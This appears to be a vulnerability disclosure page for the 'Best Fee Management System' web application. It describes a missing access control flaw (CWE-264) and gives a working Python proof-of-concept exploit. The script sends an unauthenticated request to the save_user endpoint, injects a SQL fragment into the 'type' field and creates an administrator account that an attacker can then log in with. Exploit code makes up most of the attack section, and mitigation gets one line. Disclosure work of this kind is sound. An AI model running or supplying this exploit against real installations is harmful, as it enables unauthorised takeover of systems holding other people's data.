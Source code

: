 Best Fee Management System POC

There is no other report for the vulnerable.

[CVE SEARCH link](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=Best+Fee+Management+System)
![image](https://github.com/movonow/demo/assets/39987032/77c9f56a-a37f-4850-8a69-5fd021128358)

---

## Vulnerability Type
CWE-264: Permissions, Privileges, and Access Controls

## Mitigation
There must be access control for the sentitive interfaces.

## Impact
Allows an attacker to gain full control of the system information.

## Proof of Concept


## Exploit
Setup: `pip install httpx`

```python
import httpx


response = httpx.post(
    url="http://localhost/click_fees/ajax.php?action=save_user",
    data={
        "name": "evil",
        "username": "evil@mars.io",
        "password": "evil",
        "type": "1'#", # SQL injection is necessary, beacuase of a server bug.
    },
    proxies="http://localhost:8080",
)

print(response.text)
```

## Steps To Reproduce
After execute POC script, attacker can login system with:
* username: evil@mars.io 
* password: evil
